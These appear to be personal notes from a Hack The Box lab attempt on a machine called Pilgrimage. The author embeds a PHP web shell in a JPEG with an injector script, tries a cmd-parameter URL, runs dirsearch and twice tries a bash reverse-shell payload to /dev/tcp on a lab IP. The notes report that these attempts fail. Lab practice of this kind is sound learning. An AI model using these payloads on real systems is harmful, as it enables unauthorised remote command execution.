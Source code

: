 
This is another sciript on python 

https://github.com/dlegs/php-jpeg-injector
```
`python3 gd-jpeg.py [JPEG] [PAYLOAD] [OUTPUT_JPEG]`

	e.g. `python3 gd-jpeg.py cat.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg`
```

I will try first the script with python.

While i was using this exploit i recive 
```
┌──(cds㉿kali)-[~/Documents/htb/Prilgrimage/exploits]
└─$ python3  gd-jpeg.py screenshot.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg 
[ ] Searching for magic number...
[+] Found magic number.
[ ] Injecting payload...
[+] Payload written.

```

ok... i put the image and when i do this  I cannot recive the output .. but at least I do not recive a 404 error.
```
http://pilgrimage.htb/shrunk/6500b9e55e399.jpeg?cmd=%27whoami%27 
```
What happens if i put 

```
?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.45/443 0>%261"
```
And then i listen with netcat ?

maybe this will work

So... no this doesnt work.

Im searching if i can see where the files are, but im really lost at this point.. I dont know what to do

```
python3 /home/cds/dirsearch/dirsearch.py -u http://10.10.11.219 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 150 -e php,txt,html -f
```


When i clicked on the url, I recive a error .. so maybe the file is no more on the website...
```
http://pilgrimage.htb/shrunk/6500b9e55e399.jpeg
```


NO !! THIS DOESN'T WORK...

?cmd=bash -c "bash -i >%26 /dev/tcp/10.10.16.45/443 0>%261"


I didnt found no other subdirectory ... so the problem is .. how did I make this payload work?..

I found some explanations on this article, very interesting 
https://medium.com/@igordata/php-running-jpg-as-php-or-how-to-prevent-execution-of-user-uploaded-files-6ff021897389
